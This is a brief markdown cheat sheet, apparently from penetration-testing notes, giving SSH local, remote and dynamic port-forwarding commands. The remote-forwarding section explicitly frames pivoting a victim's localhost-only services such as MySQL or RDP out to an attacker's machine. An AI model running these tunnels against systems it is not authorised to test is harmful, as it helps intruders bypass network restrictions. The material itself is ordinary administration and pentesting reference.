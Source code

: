 ### Local Port Forwarding

This setup creates a new port on your local machine (`[local_port]`), which forwards traffic to a specific destination on the remote machine (`[target_ip]:[target_port]`). If a service is accessible remotely on a particular IP and port, local port forwarding allows you to access it through your machine's port.

```bash
ssh -N -L [local_port]:[target_ip]:[target_port] [user]@[target]
```

Examples:

Opens 3389 locally. Connected to 3389 locally will forward traffic to 10.1.1.10 on port 3389:

```bash
ssh -N -L 3389:10.1.1.10:3389 [user]@[target]
```

```bash
sudo ssh -N -L [local_port]:127.0.0.1:[target_port] [user]@[target]
```

### Remote Port Forwarding

This setup creates a new port on the attacker's machine `[target]`, which forwards traffic originating from the victim's machine (`127.0.0.1`). If a service (e.g., MySQL on port `3306`) is only accessible locally on the victim (`127.0.0.1:3306`), SSH remote port forwarding can be used to expose it to the attacker's machine.

```bash
ssh -N -R [local_port]:127.0.0.1:[target_port] [user]@[target]
```

or, to restrict access to a specific IP on the attacker's machine:

```bash
ssh -N -R [attacker_ip]:[local_port]:127.0.0.1:[target_port] [user]@[target]
```

Example

```bash
ssh -N -R 3389:127.0.0.1:3389 [user]@[target]
ssh -N -R 10.10.5.1:3389:127.0.0.1:3389 [user]@[target]
```

### Dynamic Port Forwarding:

```bash
sudo ssh -N -D 127.0.0.1:1080 [user]@[target]
```